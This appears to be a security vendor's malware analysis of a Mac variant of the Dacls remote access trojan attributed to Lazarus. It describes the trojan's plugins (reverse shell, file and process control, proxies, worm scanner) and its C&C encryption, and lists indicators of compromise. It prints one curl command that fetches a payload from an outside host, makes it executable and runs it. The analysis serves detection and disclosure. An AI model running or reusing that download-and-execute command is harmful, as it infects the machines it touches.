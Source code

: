  Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227